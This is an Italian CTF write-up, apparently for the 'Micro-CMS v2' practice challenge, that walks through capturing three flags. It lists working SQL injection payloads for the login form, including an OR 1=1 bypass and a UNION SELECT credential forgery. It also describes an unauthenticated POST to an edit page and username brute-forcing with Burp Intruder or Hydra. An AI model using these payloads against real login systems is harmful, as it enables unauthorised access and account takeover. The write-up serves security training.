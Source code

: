 # Micro-CMS v2

## flag0

+ Creare nuova pagina, viene chiesto login

+ admin:admin => 'Unknown user'

+ admin'sqltest:admin => 'Traceback'

![picture](imgs/1.png)

+ admin' OR 1=1#:password => 'Invalid password' => quindi admin(true) e password(false)

+ admin= admin' UNION SELECT 'pwned'#  password= pwned   (craftata guardando la query nell'error)

+ Flag si trova in una pagina che esce dopo aver loggato

![picture](imgs/2.png)

## flag1

+ POST request su edit page (curl , burpsuite , etc.)

## flag2

+ Hint dice: "Credentials are secret, flags are secret. Coincidence?"

+ Torno su login, admin' OR 1=1#:password => 'Invalid password' 

+ admin = dipa' OR 1=1# password= 'bruteforce con wordlist di username'

+ Io l'ho fatto con intruder di burpsuite, può essere fatto anche con hydra o tool simili.

+ [wordlist](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)
 